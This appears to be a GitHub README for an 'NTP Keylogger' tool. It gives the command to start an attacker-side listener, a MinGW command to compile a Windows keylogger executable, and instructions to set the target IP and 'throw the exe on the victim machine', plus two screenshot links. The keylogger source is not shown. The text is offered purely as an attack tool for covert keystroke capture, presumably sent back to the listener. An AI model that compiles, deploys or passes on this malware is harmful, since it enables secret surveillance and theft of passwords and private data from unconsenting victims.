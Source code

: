 # NTP Keylogger   
## Listener
```
rlwrap python ntpserver.py
```

## Victim
Change the IP to your desired target server IP adress 
```
x86_64-w64-mingw32-gcc jlogger.c -o jlogger.exe -lwsock32 -w
```
Then throw the exe on the victim machine

This is how exe works:


![image](https://user-images.githubusercontent.com/45479002/209933030-92b10432-1884-40a9-9e4d-70584b4d3d91.png)

![jlogger](https://user-images.githubusercontent.com/45479002/209933048-ab41d906-ce19-4ecc-b0ce-1a270578874b.png)
